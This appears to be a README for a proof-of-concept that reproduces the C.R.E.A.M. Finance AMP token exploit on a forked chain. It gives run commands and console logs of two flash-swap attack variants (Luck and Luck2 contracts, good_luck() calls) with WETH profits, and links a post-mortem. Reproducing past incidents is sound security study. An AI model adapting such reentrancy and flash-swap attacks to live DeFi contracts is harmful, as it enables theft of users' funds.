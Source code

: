 # MISO

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
------ Exploit 1: using DEX obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x6e1bedb73772048183ea634e527e009ccfa3e184413f7195b151149fbdc58207
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck.constructor confirmed - Block: 13125192   Gas used: 911645 (13.56%)
  Luck deployed at: 0x9c214F0caC1fdAb0C93EA8e6636c2499F10b6036

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x627dd0058ee665d099b009561f945a178276e3a2e1261de2bc3ed380cacc54f0
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck.good_luck confirmed - Block: 13125193   Gas used: 988358 (14.70%)

🧛 After:  balance is 130.77899048519276 WETH
🧛 After:  profit is 130.77899048519276 WETH
------ Exploit 2: using Liquidation obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x72e155a0a0e20f2e5d4ea2ec01649edbdfec16221764b104a9819d09da445fd2
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck2.constructor confirmed - Block: 13125192   Gas used: 1216758 (18.10%)
  Luck2 deployed at: 0x532AB34D5a2Ef27FDCf485e2e6fbAa6371e48138

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x3a0c24d208738c9d21bc75aaa607b10e2e02adab2cd8021ccc280e61471fbf5e
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck2.good_luck confirmed - Block: 13125193   Gas used: 1564748 (23.28%)

🧛 After:  balance is 75.99349268338645 WETH
🧛 After:  profit is 224.9846920640469 WETH
```

In the poc, we show two methods to obtain the profits.

* Method 1: swapping the whole AMP tokens in DEX
* Method 2: 1/2 AMP for Liquidation and 1/2 AMP for swapping in DEX


## link 

* https://mp.weixin.qq.com/s/ht2YskJ9i3yCgY-PLC6vKw

* https://medium.com/cream-finance/c-r-e-a-m-finance-post-mortem-amp-exploit-6ceb20a630c5

